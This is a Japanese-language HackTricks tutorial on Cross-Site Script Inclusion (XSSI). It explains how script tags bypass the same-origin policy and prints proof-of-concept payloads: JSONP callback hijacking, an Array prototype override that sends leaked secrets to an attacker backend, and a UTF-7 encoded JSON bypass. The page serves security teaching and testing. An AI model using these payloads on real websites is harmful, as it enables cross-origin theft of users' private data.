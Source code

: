 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## 基本情報

**クロスサイトスクリプトインクルージョン (XSSI)** は、HTMLの `script` タグの性質から生じる脆弱性です。ほとんどのリソースが **同一オリジンポリシー (SOP)** の対象であるのに対し、スクリプトは異なるドメインから含めることができます。この動作は、異なるサーバーにホストされているライブラリや他のリソースの使用を促進することを目的としていますが、同時に潜在的なセキュリティリスクも引き起こします。

### **XSSI** の主な特徴:
- **SOPのバイパス**: スクリプトは **同一オリジンポリシー** から免除されており、異なるドメイン間で含めることができます。
- **データの露出**: 攻撃者はこの動作を利用して、`script` タグを介して読み込まれたデータを読み取ることができます。
- **動的JavaScript/JSONPへの影響**: **XSSI** は特に動的JavaScriptや **JSON with Padding (JSONP)** に関連しています。これらの技術は、認証のために「環境権限」情報（クッキーなど）を使用することがよくあります。異なるホストへのスクリプトリクエストが行われると、これらの資格情報（例：クッキー）が自動的にリクエストに含まれます。
- **認証トークンの漏洩**: 攻撃者がユーザーのブラウザを騙して、自分が制御するサーバーからスクリプトをリクエストさせることができれば、これらのリクエストに含まれる機密情報にアクセスできる可能性があります。

### タイプ

1. **静的JavaScript** - これはXSSIの従来の形式を表します。
2. **認証付き静的JavaScript** - このタイプは、アクセスするために認証が必要であるため、特異です。
3. **動的JavaScript** - コンテンツを動的に生成するJavaScriptを含みます。
4. **非JavaScript** - JavaScriptを直接含まない脆弱性を指します。

**以下の情報は [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414) の要約です**。詳細については確認してください。


### 通常のXSSI
このアプローチでは、プライベート情報がグローバルにアクセス可能なJavaScriptファイルに埋め込まれています。攻撃者は、ファイルの読み取り、キーワード検索、または正規表現などの方法を使用してこれらのファイルを特定できます。特定されたら、プライベート情報を含むスクリプトを悪意のあるコンテンツに含めることができ、機密データへの不正アクセスを可能にします。以下に例示される悪用技術があります:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI
これらのタイプのXSSI攻撃は、ユーザーのリクエストに応じて機密情報が動的にスクリプトに追加されることを含みます。検出は、クッキーありとなしでリクエストを送信し、レスポンスを比較することで行うことができます。情報が異なる場合、機密情報が存在する可能性を示すことがあります。このプロセスは、[DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp拡張機能のようなツールを使用して自動化できます。

機密データがグローバル変数に保存されている場合、通常のXSSIで使用されるのと同様の方法を使用して悪用することができます。ただし、機密データがJSONPレスポンスに含まれている場合、攻撃者はコールバック関数をハイジャックして情報を取得することができます。これは、グローバルオブジェクトを操作するか、JSONPレスポンスによって実行される関数を設定することで行うことができます。以下に示します:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
グローバル名前空間に存在しない変数に対しては、*prototype tampering*が時々悪用されることがあります。この技術は、呼び出されたプロパティを見つけるためにプロトタイプチェーンをたどるコード解釈を含むJavaScriptの設計を利用します。`Array`の`slice`のような特定の関数をオーバーライドすることで、攻撃者は非グローバル変数にアクセスし、漏洩させることができます：
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
さらなる攻撃ベクターの詳細は、セキュリティ研究者 [Sebastian Lekies](https://twitter.com/slekies) の研究に見られ、彼は [ベクター](http://sebastian-lekies.de/leak/) のリストを維持しています。

### Non-Script-XSSI
寺田武の研究は、CSVなどのNon-Scriptファイルが`script`タグのソースとして含まれることによって、クロスオリジンで漏洩する別の形のXSSIを紹介しています。2006年のジェレミー・グロスマンによる完全なGoogleアドレス帳を読み取る攻撃や、2007年のジョー・ウォーカーによるJSONデータ漏洩など、XSSIの歴史的な事例は、これらの脅威の深刻さを浮き彫りにしています。さらに、ギャレス・ヘイズは、特定のブラウザで効果的なJSON形式を逃れるためにUTF-7エンコードされたJSONを使用してスクリプトを実行する攻撃のバリアントを説明しています。
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}
